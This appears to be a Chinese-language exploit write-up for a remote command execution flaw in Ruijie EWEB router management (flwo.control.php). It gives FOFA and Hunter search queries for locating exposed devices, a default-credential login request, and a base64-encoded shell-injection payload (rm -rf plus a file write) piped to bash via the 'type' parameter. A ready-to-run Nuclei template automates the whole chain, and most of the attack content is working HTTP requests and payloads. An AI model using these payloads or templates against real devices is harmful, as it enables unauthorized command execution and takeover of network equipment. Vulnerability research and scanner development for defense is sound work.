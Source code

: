 # 锐捷EWEB flwo.contro存在远程命令执行漏洞

# 一、漏洞简介
锐捷EWEB flwo.contro存在远程命令执行漏洞

# 二、影响版本
+ 锐捷NBR路由器

# 三、资产测绘
+ hunter`app.name=="Ruijie 锐捷 EWEB"`
+ fofa`title="锐捷网络-EWEB网管系统"`
+ 登录页面![1715322581874-fa3273b6-555a-497f-a4ef-ba0b586cab54.png](./img/TFOZ7WRYk6ynbZLx/1715322581874-fa3273b6-555a-497f-a4ef-ba0b586cab54-866973.png)

# 四、漏洞复现
 先发送数据包，获取cookie  

```http
POST /ddi/server/login.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 

username=admin&password=admin?
```

![1715323041665-52c124a1-a313-42dd-8797-fe5f1386b46c.png](./img/TFOZ7WRYk6ynbZLx/1715323041665-52c124a1-a313-42dd-8797-fe5f1386b46c-753050.png)

 使用获取cookie执行命令  

```http
cm0gLXJmIC4uL2lrbTEyMy50eHQgJiYgZWNobyBIZWxsb1dvcmxkID4gLi4vaWttMTIzLnR4dCAyPiYx 
Bsae64解码
rm -rf ../ikm123.txt && echo HelloWorld > ../ikm123.txt 2>&1
```

```http
POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0
Connection: close
Content-Length: 160
Content-Type: application/x-www-form-urlencoded
Cookie: RUIJIEID=e3t2n743strq8lu1anqod3bhu6;
Accept-Encoding: gzip

type=%7Cbash+-c+%27echo+cm0gLXJmIC4uL2lrbTEyMy50eHQgJiYgZWNobyBIZWxsb1dvcmxkID4gLi4vaWttMTIzLnR4dCAyPiYx+%7C+base64+-d+%7C+bash+%26%26+exit+0%27
```

![1715323240193-01afe809-d76e-4d69-8be8-d16470a63556.png](./img/TFOZ7WRYk6ynbZLx/1715323240193-01afe809-d76e-4d69-8be8-d16470a63556-647634.png)

 3、命令执行成功 

```http
/ikm123.txt
```

![1715323343958-2af6502d-a935-4e8d-8360-dcf53b32a982.png](./img/TFOZ7WRYk6ynbZLx/1715323343958-2af6502d-a935-4e8d-8360-dcf53b32a982-871259.png)

## 五、 Nuclei
```http
id: RJEWEB-flwo-contro-RCE

info:
  name: 锐捷 EWEB-RCE-flwo.contro
  author: haoguoguo
  severity: high
  metadata: 
    fofa-query: title="锐捷网络-EWEB网管系统"
variables:
  filename: "{{to_lower(rand_base(5))}}"
  boundary: "{{to_lower(rand_base(20))}}"
http:
  - raw:
      - |
        POST /ddi/server/login.php HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        User-Agent: Mozilla/5.0 

        username=admin&password=admin?

      - |
        POST /flow_control_pi/flwo.control.php?a=getFlowGroup HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0
        Connection: close
        Content-Length: 160
        Content-Type: application/x-www-form-urlencoded
        Accept-Encoding: gzip

        type=%7Cbash+-c+%27echo+{{base64("rm -rf ../{{filename}}.txt && echo HelloWorld > ../{{filename}}.txt 2>&1")}}+%7C+base64+-d+%7C+bash+%26%26+exit+0%27

      - |
        GET /{{filename}}.txt HTTP/1.1
        Host:{{Hostname}}
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
        Content-Length: 0


    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"HelloWorld")
```

![1715322761109-4303e648-4b49-4d38-8c6e-cb1348e035dc.png](./img/TFOZ7WRYk6ynbZLx/1715322761109-4303e648-4b49-4d38-8c6e-cb1348e035dc-278160.png)



> 更新: 2024-06-24 11:42:26  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/wqfe5713gy2pdu2v>